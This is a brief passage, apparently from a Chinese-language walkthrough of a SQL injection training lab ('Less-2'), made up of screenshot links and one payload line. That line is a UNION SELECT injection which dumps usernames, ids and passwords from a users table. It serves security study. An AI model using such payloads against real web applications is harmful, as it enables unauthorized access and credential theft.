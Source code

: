 ![Less-2_10](./img/Less-2_10.PNG)



+ 注入

~~~ shell
?id=-1 union select 1,2,group_concat(username, id, password) from users
~~~

![Less-2_11](./img/Less-2_11.PNG)
